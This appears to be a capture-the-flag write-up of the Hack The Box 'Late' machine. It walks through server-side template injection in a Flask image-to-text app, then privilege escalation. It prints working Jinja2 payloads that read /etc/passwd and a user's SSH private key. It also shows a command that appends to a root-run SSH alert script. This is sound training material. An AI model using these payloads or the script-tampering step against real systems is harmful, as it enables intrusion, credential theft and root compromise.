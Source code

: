 <h1> Late Hackthebox Writeup </h1>

# NMAP SCANNING
## Basic Scan
```
┌──(x4k5h4yx💀Kali)-[~]
└─$   
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
# Found the domain listed on website - images.late.htb 
## Added to host file.
### Visiting the site images.late.htb
![image](https://user-images.githubusercontent.com/68991993/172343037-cb07afab-c037-4bfe-981e-f7784d108574.png)
</br> This Flask application processes the text in the image and returns it inside an HTML paragraph. If you have some programming knowledge of Python (Django & Flask), then you will know that we can have Python syntax within HTML, using the double-curly braces. This is similar to JSX in React, where you can use JavaScript inside HTML with single curly braces.
# Testing for SSTI .
### Note : Make sure to try different fonts and different sizes so that the server can read the text on the image clearly.
### REF: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
</br>  There are a few SSTI examples for Mako, Jinja2 & Tornado (these are templating engines used in Python applications). We should know, that jinja2 is the most common templating engine used in Flask applications. This is why I will try to use tricks for arbitrary command execution in the jinja2 templating engine.
</br>  To test SSTI , we need to write SSTI payload which is {{7*7}} in any text editor (whatever you want to use). You can use sublime text and screenshot like below . 
</br> ![image](https://user-images.githubusercontent.com/68991993/172345295-498fa289-5d7f-4bb1-9c5b-e30532023a8d.png)
</br> The website processes the picture and returns a results.txt file with the below output:
</br> ![image](https://user-images.githubusercontent.com/68991993/172345457-9c8f3dac-54be-41ac-87df-0a5e743285df.png)
</br> This vulnerability is called SSTI(Server-side Template Injection). A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
# Exploiting SSTI.
To get /etc/passwd use this payload.
```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
From the result.txt file we can see different users. I tried for different users and finally settled with svc_acc to get the ssh id_rsa file .
```
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```
The id_rsa file is downloaded.
# Attempting to connect ssh 
## Permissions to id_rsa
```
chmod 600 id_rsa
```
# Successfully Connected
```

┌──(x4k5h4yx💀Kali)-[~]
└─$ ssh -i id_rsa svc_acc@late.htb
svc_acc@late:~$ hostname
late
svc_acc@late:~$ whoami
svc_acc

```
# User Flag
### 
```
┌──(x4k5h4yx💀Kali)-[~]
└─$  ssh -i id_rsa svc_acc@late.htb
svc_acc@late:~$ ls
app pspy64 user.txt
svc_acc@late:~$ cat user.txt
```
## Linpeas
![image](https://user-images.githubusercontent.com/68991993/172349141-24b6a920-98c1-44f5-8a71-e79d1d32556f.png)

```
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash
RECIPIENT=”root@late.htb”
SUBJECT=”Email from Server Login: SSH Alert”
BODY=”
A SSH login was detected.
User: $PAM_USER
 User IP Host: $PAM_RHOST
 Service: $PAM_SERVICE
 TTY: $PAM_TTY
 Date: `date`
 Server: `uname -a`
“
if [ ${PAM_TYPE} = “open_session” ]; then
 echo “Subject:${SUBJECT} ${BODY}” | /usr/sbin/sendmail ${RECIPIENT}
fi
```
If you login with ssh , this script will be execute as root .

# Root
From the reverse shell session generate ssh keys and save the private key (id_rsa) to our machine.
```
echo 'cat /root/root.txt > /tmp/root.txt' >> /usr/local/sbin/ssh-alert.sh;ssh localhost "e
xit"; cat /tmp/root.txt
```
![image](https://user-images.githubusercontent.com/68991993/172349988-2a36dc05-47dd-4437-8a0d-c740ae337341.png)

</br>

Thank YOU <3

